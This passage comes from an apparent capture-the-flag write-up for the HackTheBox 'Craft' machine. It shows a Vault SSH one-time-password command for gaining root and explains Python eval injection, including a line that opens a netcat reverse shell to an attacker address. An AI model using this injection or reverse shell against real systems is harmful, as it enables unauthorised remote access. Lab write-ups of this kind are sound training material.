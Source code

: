 
   The ssh secret is interesting. It can be used with:
   
   ```bash
   vault ssh -mode=otp root@craft.htb
   ```

You'll be prompted for a password, which is simply the OTP printed in the first few lines of output:

> OTP for the session is: **9fa524fb-1bda-d5a2-c4d4-8e020c635e0e**

Copy/paste the OTP to become root. 

___

## **Why It Works**

# Python Eval Injection

The [eval function in Python][4] takes strings and runs them as python code. In order for the code to execute, the syntax must be valid.

Example: I'm trying to inject into the following snippet:
```python
eval('%s > 1' % x)
```
Here 1 is an int, so *x* must be of a type that can be compared to an int. Basically, that means an int or a float. Strings, dictionaries, and lists will result in a syntax error and the code won't be evaluated.

The trick is that you can validly pass functions/objects that return integers, and it's not always intuitive what returns an integer:

```python
type("1")                   # string
type(int("1"))              # int
type(os.listdir())          # list
type(os.system("whoami"))   # int...
```

[Calls to os.sytem don't return the output][5]; they return the status code indicating how the operation completed (e.g. 0 for success, 1 for error), and the output is sent to Python's standard output. Consequently, this is valid python:
```python
eval('os.system("nc -e /bin/bash 10.10.14.23 443") < 1111')     # True
```

By default, the eval function exposes the global and local contexts to the code it's evaluation. This means you can use any imported modules, and reference variables available in the context of the calling function (although you can't assign variables). That's why calls to os.system would work if brew.py had imported *os*. Unfortunately it's brew.py did not import *os*, nor did it import any other useful modules (e.g. subprocess).

Import statements, which [bind the imported module to the local namespace][6], can't be used in the eval function, which does not support assignment. This can be tested in the python console
```python
x = 10
eval('x')           # 10
eval('x = 12')      # ERROR
eval('y = 12')      # ERROR
eval('import os')   # ERROR
```


[1]: https://www.vaultproject.io/ "Vault by HashiCorp"
[2]: https://gogs.io/ "Gogs is a self-hosted Git service"
[3]: https://www.hackthebox.eu/home/machines/profile/197 "HackTheBox: Craft"
[4]: https://docs.python.org/3/library/functions.html?highlight=eval#eval "Python3 eval function"
[5]: https://docs.python.org/3/library/os.html?highlight=os#module-os "Python3 os.system"
[6]: https://docs.python.org/3/reference/simple_stmts.html#import "Python3 Import statement"
[7]: https://docs.python.org/3/library/functions.html#__import__ "Python3 __import__ function"